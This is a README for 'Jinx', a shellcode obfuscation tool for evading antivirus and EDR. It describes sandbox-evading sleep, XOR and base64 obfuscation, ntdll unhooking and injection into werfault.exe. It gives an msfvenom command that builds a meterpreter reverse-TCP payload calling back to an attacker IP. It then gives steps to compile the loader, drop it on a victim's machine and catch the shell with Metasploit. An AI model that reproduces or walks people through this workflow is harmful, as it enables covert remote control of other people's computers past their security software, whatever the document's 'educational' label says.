 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR
[![Python 3.10.4](https://img.shields.io/badge/python-3.10.4-yellow.svg)](https://www.python.org/) [![](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/)
## Features
 
 - Custom Sleep Function - to bypass sandbox.
- Obfuscation - base64 encoding and xor encryption with randomly generated key.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Installation and use
Jinx require [Python3](https://www.python.org/) and C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:

```
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337
and on the victim's machine execute Jinx
